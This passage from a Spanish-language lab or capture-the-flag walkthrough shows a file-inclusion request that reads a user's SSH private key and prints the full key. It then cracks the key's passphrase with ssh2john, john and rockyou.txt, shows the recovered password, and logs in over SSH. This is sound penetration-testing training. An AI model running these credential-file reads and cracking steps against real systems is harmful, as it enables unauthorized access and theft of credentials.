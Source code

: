 Encontramos que estan las claves privadas de `p4l4nc4`:
```bash
curl http://192.168.21.6/n3gr4/m414nj3.php?page=/home/p4l4nc4/.ssh/id_rsa
```
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABCvTRnNli
2HLc7wYB9S1mbCAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQCrXZ98DYMr
n/f74/g82lqDkMHkyocXGXn8VaP/N7vD9j5mLSr1uhKGBbxcVm4uGP9k//mmRKlewRl/MZ
nTg0N8MP9vp0O2B9vrwHLz9JekTblv93/VCDpJS78CGkNNOVMRcv2ZB3w7uFm6zxRZxQmH
5HaRNuf795GQSFjybiqmN7Mu78bG/94aQMZZLALYmoyMCYWXGvvHpxRN1dwNsT7If4aNBE
l1HXVrZY1biDOrpJQ7O+eZpD4IKs5/QgKL6w9nBczVcGKkvyms98A5qTa/F43+1CxQE2ng
wPiejJEeJZ0PEkQu3nZTK1k7WpJzVnhpqbHGlwKWbfvMKh27Y2gpAAADwI6Nr+vLoXaEJy
SIRrVjIYFz/C3B17pmpx+lmupFfU6ruVHLE92gweyr9wAd5lxhKX1I6BClhlEoDWkzEBCT
H/4zg2tj84+hzhdVWUy6KaCVbRbuvJYWQNWY4kgfk/3FTnSJFHd+k8CZImN3Xa/9DRVLmg
jytzseFr83bPyOyGSze51kJX4r2ljurDvmcnXfQ4j27zUUmwEKi02VvjLngXbmMnIMDLI3
x/pdFxnyZ0w6wnl/Bg+2gvc54Y2ssMblNMw6HZU4K2TN/c3li3A3hLZsN7QwNIV76X5UeP
dWCOngRsImAmMtyxPKZ0rvYwgDimWunQPy0yJXEPdofL6hrAxFZ6y+jnm+gM7x1fnooSkb
9H5RblfwiOtuTD7bmAu6ApNU0Ul3X2YFPnDLFjo/D0Sj5LcsYDQ+XlTNUwnjHpyMy5VzUz
2vDpiscBd7FpFCHf1lS9bfGMLbhOfdM6TPzpjlOmdRizoVjGCZdXsA4Jg05FpvEFa3KHqM
iJOA9yXhHPROYmOwl5Mu+NTPc+Xbiu7B8TJu/BORoOShhbm7+kQpXM7XHPDKTTnJo+qmsI
Pt9FuQF3wZWIXZ48DmRKJKhB+a9LwuE8ES3wUTVqx/EbAs08V6/uiBYZmorJFSgbPd68AE
xKTK9ObilJKSfS2Ik5/iVIBTUxlAt2foAUpWTlXVNmFfBEhRSk48E8NhcgNqctKWpjKf0R
2gi/Dvpect4LoqKPue5zvN0dNlYSiq/6QK6NqJrJdN7DvsvocL+BcWmmv31erlJOo6A3Zw
CEpmnqVzMTroZSBQv3eEsOFS/+RkJ5ffFRpXGfWPh4Dn/Y++n3wbHNNb97pOd9WV+IlhDV
7btvga8cG9xp3zihOIf308VowcpIp0CSlEqZDBpis5jWY9J3N1+uh3pJHFgqmLxKnqLmzu
u15Kh/+nAV6DTBVxrdhq8HoLAvb7ubAq2ICHALC39X12+J0cLOUMi8UWYawMTFgYnO3ZBD
fb6fZaM9Hr97jREiUEG6vgIcNgn6jtJ3EM3ncxTKe2T8SSYn8pFy9Lqf+lvZ8yo9DkaPl5
ORSVWa+jCKhuClPZY5t8VJC9xXGyz8Wah15Y2pg95nGEub7dgmRlQAIiSxjWsDmaDzIBPo
IkZ5lzxoTvvtL2N1+4ZFprPwUN6y6C6zrXbzQp7Ov0bZc2g9fFiNxu1HvR96rwVNFHbeia
OJEM2NZSUU52PExgYtSXwO5aDy70oKiu0pbifoYOm19hlYwYWOOa6s+oW2FG+aXO8WIeEa
muaZDiXw==
-----END OPENSSH PRIVATE KEY-----
```
----

## Crackeo de la Clave Privada SSH
Utilizamos `ssh2john` para convertir la clave privada en un formato compatible con `john` y luego se crackeó con el diccionario `rockyou.txt`:
```bash
ssh2john id_rsa > passwd
```
```bash
john passwd --wordlist=/usr/share/wordlists/rockyou.txt`
```
Encontramos la contraseña:
```java
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
friendster       (id_rsa)     
1g 0:00:00:12 DONE (2025-04-02 16:36) 0.07968g/s 50.99p/s 50.99c/s 50.99C/s mariah..pebbles
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
----
## Acceso al Sistema mediante SSH
Entramos por ssh con la contraseña `friendster`
```bash
ssh p4l4nc4@192.168.21.6
```